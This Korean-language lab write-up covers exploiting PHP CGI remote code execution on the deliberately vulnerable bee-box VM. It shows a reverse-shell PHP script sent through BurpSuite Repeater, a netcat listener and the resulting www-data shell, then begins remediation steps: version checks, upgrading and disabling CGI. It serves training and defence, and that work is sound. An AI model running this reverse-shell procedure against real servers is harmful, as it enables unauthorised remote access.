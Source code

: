 * [PHP 코드 출처](https://github.com/jivoi/pentest/blob/master/shell/rshell.php)

```php
$ip = '192.168.190.155';  // CHANGE THIS
$port = 6666;       // CHANGE THIS
```

* 이 부분은 칼리리눅스에 `ifconfig`로 나온 아이피 주소 입력
* BurpSuite에서 2번에서 보낸 Http history를 repeater로 보냄
* repeater에서 GET --> POST로 바꾸고 body에 위 php 코드 입력

```bash
root@ming:~# nc -l -p 6666
```

* 칼리리눅스 터미널에 위와 같이 netcat으로 6666포트 열기
* repeater에서 Go 클릭

### Go 버튼 클릭 후 결과

```bash
root@ming:~# nc -l -p 6666
Linux bee-box 2.6.24-16-generic #1 SMP Thu Apr 10 13:23:42 UTC 2008 i686 GNU/Linux
 05:29:10 up 18:41,  3 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    :1.0             14Feb19 12days  0.00s  0.00s -bash
bee      tty7     :0               14Feb19 14:49  20.74s  0.10s x-session-manag
bee      pts/2    :0.0             15Feb19 14:49   0.10s  0.10s bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

## PHP CGI Remote Code Execution 대응방안

### 1. 버전 검사

```bash
bee@bee-box:~$ dpkg -l | grep php | grep cgi
ii  php5-cgi                                   5.2.4-2ubuntu5                          server-side, HTML-embedded scripting languag
```

### 2-1. 버전 업데이트

```bash
sudo apt-get update
sudo apt-get upgrade php5-cgi
```

* Bee-Box는 오래된 버전이라 이 명령어가 되지 않음

### 2-2. php cgi 설정 끄기
